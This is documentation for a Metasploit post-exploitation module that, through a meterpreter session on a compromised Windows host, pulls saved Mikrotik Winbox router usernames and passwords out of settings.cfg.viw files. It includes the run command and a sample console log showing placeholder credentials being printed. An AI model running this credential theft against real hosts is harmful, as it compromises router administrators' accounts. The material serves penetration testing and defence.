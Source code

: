 ## Vulnerable Application

Any Windows host with a `meterpreter` session and Mikrotik Winbox installed.

Winbox can be downloaded [here](https://mikrotik.com/download)

### Installation Steps

1. Download and open Mikrotik Winbox
2. Enter a RouterOS device address into `Connect to`, username into `Login`, password into `Password` and check the flag `Keep Password`
3. Click Connect

## Verification Steps

1. Get a `meterpreter` session on a Windows host.
2. Do: `run post/windows/gather/credentials/winbox_settings`
3. If any users in the system has a `Keep Password` enabled in Winbox, the credentials will be printed out.

## Options

### VERBOSE

- By default verbose is turned off. When turned on, the module will show the HexDump of `settings.cfg.viw` files.

## Scenarios

```
msf post(windows/gather/credentials/winbox_settings) > run

[*] VERBOSE: false
[*] Checking Default Locations...
[*] C:\Users\Administrator\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw not found ....
[*] Found File at C:\Users\FooBar\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw
[+] Login: ThisIsUsername
[+] Password: ThisIsPassword
[*] Post module execution completed
```
